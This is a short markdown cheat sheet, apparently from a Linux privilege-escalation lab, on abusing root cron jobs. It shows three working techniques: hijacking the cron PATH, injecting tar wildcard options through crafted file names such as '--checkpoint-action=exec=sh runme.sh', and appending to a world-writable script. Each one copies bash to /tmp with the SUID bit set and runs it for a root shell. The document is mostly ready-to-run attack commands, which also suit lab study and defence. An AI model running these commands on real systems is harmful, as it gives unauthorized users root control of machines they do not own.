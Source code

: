 https://crontab.guru/#*/2_*_*_*_* **<-- Check to see times**
# Paths

### Victim VM
```bash
$ cat /etc/crontab
	SHELL=/bin/sh
	PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
	
	# m h dom mon dow user	command
	17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
	25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
	47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
	52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
	#
	* * * * * root overwrite.sh
	* * * * * root /usr/local/bin/compress.sh	# <- Vulnerable
```
### Exploitation
```bash
$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
$ chmod +x /home/user/overwrite.sh
$ /tmp/bash -p
```
---
# Wildcards
[Wildcard Priv Esc.](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) **<-Check.**
### Victim VM
```bash
$ cat /etc/crontab
	* * * * * root /usr/local/bin/compress.sh
$ cat /usr/local/bin/compress.sh
	#!/bin/sh
	cd /home/user
	tar czf /tmp/backup.tar.gz *
```
### Exploitation
```bash
$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
$ touch /home/user/--checkpoint=1
$ touch /home/user/--checkpoint-action=exec=sh\ runme.sh
## Wait for the script to exetuce ##
$ /tmp/bash -p
```
---
# File Overwrite
### Victim VM
```bash
$ cat /etc/crontab
	* * * * * root overwrite.sh
$ ls -l /usr/local/bin/overwrite.sh
	-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
$ echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
## Wait for the script to execute ##
$ /tmp/bash -p
```